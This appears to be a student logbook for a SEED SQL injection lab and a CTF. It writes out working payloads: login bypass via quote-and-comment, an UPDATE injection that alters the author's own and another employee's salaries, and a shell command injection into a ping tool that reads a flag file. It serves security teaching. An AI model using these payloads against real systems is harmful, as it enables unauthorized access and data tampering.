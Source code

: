# Task 1

After running the necessary commands we print all the profile information
of the employee Alice with select * from credential where Name = 'Alice':

![task1](Logbook8_screenshots/Task1.png)

# Task 2
## Task 2.1

In order to log into the web application as the
administrator, we enter "admin' #" in the username field without the quotes. In this case no password is needed for the login to succeed.  

The single quote ends the query earlier and the "#" symbol comments everything that comes after, including the password check, allowing us to login as administrator without even having to enter any password.

~~~~sql
SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name= ’$input_uname’ and Password=’$hashed_pwd’"
~~~~

becomes:
~~~~sql
SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name= ’$input_uname’
~~~~

![task2.1](Logbook8_screenshots/Task2.1.png)

![task2.2part2](Logbook8_screenshots/Task2.1_part2.png)

## Task 2.2

Using the command curl 'www.seed-server.com/unsafe_home.php?username=admin%27%20%23&Password=anything' we were able to replicate the same success we had in the previous task. %20 represents space, %27 represents the single quote and %23 represents the #. The content is displayed in HTML format:

![task2.2](Logbook8_screenshots/Task2.2.png)

![task2.2part2](Logbook8_screenshots/Task2.2_part2.png)

# Task 2.3 

For this task we attempt to erase Alice from the database by entering the following in the username field: admin'; delete from credential where Name = 'Alice' ; #    
But it does not work, printing out this error message: 

![task2.3](Logbook8_screenshots/Task2.3.png)

This attack does not work because mysqli::query, used in the PHP code, only performs a single query against the database, not allowing for more than one at a time. https://www.php.net/manual/en/mysqli.query.php

# Task 3
## Task 3.1

First, we login to our profile as Alice:

![task3.1](Logbook8_screenshots/Task3.1.png)

In order to change our salary we click on Edit Profile and enter the following on the nickname field: Ali', salary='100000

~~~~sql
UPDATE credential SET
nickname=’$input_nickname’,
email=’$input_email’,
address=’$input_address’,
Password=’$hashed_pwd’,
PhoneNumber=’$input_phonenumber’
WHERE ID=$id;
~~~~

becomes:

~~~~sql
UPDATE credential SET
nickname=’$input_nickname’,
salary='100000',
email=’$input_email’,
address=’$input_address’,
Password=’$hashed_pwd’,
PhoneNumber=’$input_phonenumber’
WHERE ID=$id;
~~~~

This way, we change our salary from 20k to 100k.

![task3.1part2](Logbook8_screenshots/Task3.1_part2.png)

![task3.1part3](Logbook8_screenshots/Task3.1_part3.png)

## Task 3.2

To change Boby's salary to 1 from our own Edit Profile page we enter in the Nickname field: ', salary = '1' where name = 'Boby';#

As a side effect, this causes Boby's nickname to change as well, if he had one, in this case to having no nickname.

~~~~sql
UPDATE credential SET
nickname=’$input_nickname’,
email=’$input_email’,
address=’$input_address’,
Password=’$hashed_pwd’,
PhoneNumber=’$input_phonenumber’
WHERE ID=$id;
~~~~

becomes 

~~~~sql
UPDATE credential SET
nickname='',
salary = '1'
where name = 'Boby';
~~~~

![task3.2](Logbook8_screenshots/Task3.2.png)

![task3.2part2](Logbook8_screenshots/Task3.2_part2.png)

# CTF
## First Challenge
The first challenge is to login as admin without knowing the password. To do this we enter in the username field admin' --

By doing this we change the query from:

~~~~sql
SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
~~~~

to 

~~~~sql
SELECT username FROM user WHERE username = 'admin' -- AND password = '".$password."'";
~~~~

Because of the comment operator the password field is never checked in the sql. It is however necessary to input a password in the website, but it does not matter what we type. 

## Second Challenge

In the second challenge this method no longer works because the input field is protected and does not allow certain special characters.

We turn to the ping a host tool instead and test different inputs.    

We notice that the input www.google.com; aaaaaa
stil works in pinging google, which means the ';' character is going to be crucial.   
The next thing we try is ;echo "hi"; and it works. "Hi" is printed out by the server.

Lastly since we have control of the terminal we search for the flag finding it with the input:
; cd ../../../../../; ls; cat flag.txt

